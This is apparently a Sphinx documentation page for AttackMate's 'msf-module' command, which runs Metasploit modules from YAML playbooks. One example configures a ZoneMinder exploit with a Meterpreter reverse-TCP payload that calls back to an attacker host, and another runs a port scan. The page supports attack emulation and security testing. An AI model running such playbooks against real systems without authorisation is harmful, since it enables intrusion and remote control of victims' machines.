

repository: ait-testbed/attackmate · page: development/playbook/commands/msf-module.html · generator: sphinx

.. _msf-module:

==========
msf-module
==========

Execute Metasploit modules via the Metasploit RPC API.

.. note::

   To configure the connection to ``msfrpcd``, see :ref:`msf_config`.

   Background mode is not supported for this commands.


Some modules (like auxiliary scanners) produce direct output:

.. code-block:: yaml

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most exploit modules do not produce direct output but instead open a session
(see :ref:`msf-session`):

.. code-block:: yaml

   commands:
     - type: msf-module
       cmd: exploit/unix/webapp/zoneminder_snapshots
       creates_session: foothold
       options:
         RHOSTS: 192.42.0.254
       payload: cmd/unix/python/meterpreter/reverse_tcp
       payload_options:
         LHOST: 192.42.2.253


.. confval:: cmd

   Path to the Metasploit module, including the module type prefix
   (e.g. ``exploit/unix/...``, ``auxiliary/scanner/...``).

   :type: str
   :required: True

.. confval:: options

   Key-value pairs of module options (e.g. ``RHOSTS``, ``RPORT``).

   :type: Dict[str, str]

.. confval:: payload

   Path to the payload to use with this module
   (e.g. ``linux/x64/shell/reverse_tcp``).

   :type: str

.. confval:: payload_options

   Key-value pairs of payload options (e.g. ``LHOST``, ``LPORT``).

   :type: Dict[str, str]

.. confval:: target

   Target index for the module. Refer to the Metasploit module documentation
   for available targets.

   :type: int
   :default: ``0``

.. confval:: creates_session

   Name to assign to the session created by this module. The session can
   subsequently be referenced in :ref:`msf-session` or other modules via
   :confval:`session`.

   :type: str

.. confval:: session

   Name of an existing session to pass to this module. Required by post-exploitation
   modules that operate within an active session.

   :type: str

.. confval:: connection

   Name of the MSF server connection to use, as defined in :ref:`msf_config`.
   If omitted, the first configured connection is used.

   :type: str
